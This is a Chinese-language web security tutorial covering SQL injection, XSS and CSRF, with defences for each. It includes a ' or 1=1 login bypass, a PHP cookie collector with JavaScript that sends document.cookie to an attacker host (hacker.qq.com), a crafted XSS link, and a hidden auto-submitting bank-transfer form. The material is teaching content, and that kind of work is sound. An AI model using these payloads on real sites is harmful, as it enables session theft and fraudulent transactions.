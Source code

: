 # 常见web漏洞（Sql注入、XSS、CSRF）原理以及攻防总结
## Sql注入
所谓SQL注入式攻击，就是攻击者把SQL命令插入到Web表单的输入域或页面请求的查询字符串，欺骗服务器执行恶意的SQL命令。 攻击者通过在应用程序预先定义好的SQL语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的查询,篡改命令。<br/>
**攻击原理**
``` python
假设的登录查询
SELECT * FROM  users  WHERE login = 'victor' AND password = '123
Sever端代码
String sql = "SELECT * FROM users WHERE login = '" + formusr + "' AND password = '" + formpwd + "'";
输入字符
formusr = ' or 1=1
formpwd = anything
实际的查询代码
SELECT * FROM users WHERE username = ' ' or 1=1  AND password = 'anything' 
```
**如何防范**<br/>
 - 服务端特殊字符过滤: <、>、* 、& 等
 - 使用ORM框架
 - 参数化Sql查询语句
## Xss攻击
 XSS 全称(Cross Site Scripting) 跨站脚本攻击， 是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的.  比如获取用户的Cookie，导航到恶意网站,携带木马等。<br/>
 **分类： 反射型和持久型**<br/>
### 反射型
这种攻击不经过数据库，是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的，攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。<br/>
**这种漏洞主要存在于与用户有交互的地方，如搜索框，如果后台没有对搜索的内容进行过滤，而原封不动的将搜索内容展示在dom中，则存在Xss漏洞**<br/>
**详细攻击方式如下：**
 - 构建自己的黑客网站 如： hacker.qq.com
 - 该域名下有一 hack.php:
 ``` php
<?php 
$cookie = $_GET['q']; 
var_dump($cookie); 
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?>
```
- 另外一 hack.js
``` js
var img = new Image();
img.src = "http://hacker.qq.com/hack.php?q="+document.cookie;
document.body.append(img);
```
- 构造一个连接来欺骗用户
``` html
<a href="http://xsstest.qq.com/search.php?q=%3Cscript+
src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=
all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=
1&pcat=food2011&style=grid&cat=">点击就送998</a>
```
假设``` http://xsstest.qq.com ```就是存在xss漏洞的网站，search.php后的q参数 ,解码后为<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script>``` <br/>
实际的作用是模拟用户在搜索框中输入<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script> ```<br/>
后点击搜索。search.php未经处理的将其直接输入到页面， 黑客就可以获取用户在xsstest.qq.com网站的cookie。
**如何防范** <br/>
- 后台对敏感字符过滤
- 前端encodehtml
### 持久型
他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。<br/>
如上例中的hack.js, 如果用户输入的内容是hack.js中的内容，而网站没有对用户输入的内容进行审查就存入数据库，然后在论坛帖子中展示，其他用户在浏览论坛的时候就会在浏览器中执行hack.js的js脚本。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
## CSRF
CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。<br/>
你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。<br/>
**原理** <br/>
*网站A ：为恶意网站。<br/>
网站B ：用户已登录的网站。<br/>
当用户访问 A站 时，A站 私自访问 B站 的操作链接，模拟用户操作。<br/>
假设B站有一个删除评论的链接：http://b.com/comment/?type=delete&id=81723 <br/>
A站 直接访问该链接，就能删除用户在 B站 的评论。<br/>*
**CSRF 与 Xss 最大的区别是： CSRF不直接获取用户的cookie, 而Xss 则会直接获取用户的Cookie** <br/>
**如果用户访问了某一个银行的网站忘记登出了， 然后又访问了一个恶意网站，而恶意网站中存在以下代码，则发生CSRF**
``` html
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```
**如何防范**
- 验证码
- Cookie Hashing(所有表单请求都包含同一个伪随机值)，**原则上来讲黑客无法获取用户的cookie，只是原则上来讲**
``` php
<?php
   $hash = md5($_COOKIE['cookie']);
 ?>
 <form method=”POST” action=”transfer.php”>
   <input type=”text” name=”toBankId”>
   <input type=”text” name=”money”>
   <input type=”hidden” name=”hash” value=”<?=$hash;?>”>
   <input type=”submit” name=”submit” value=”Submit”>
 </form>
```
然后在服务器端进行Hash值验证。
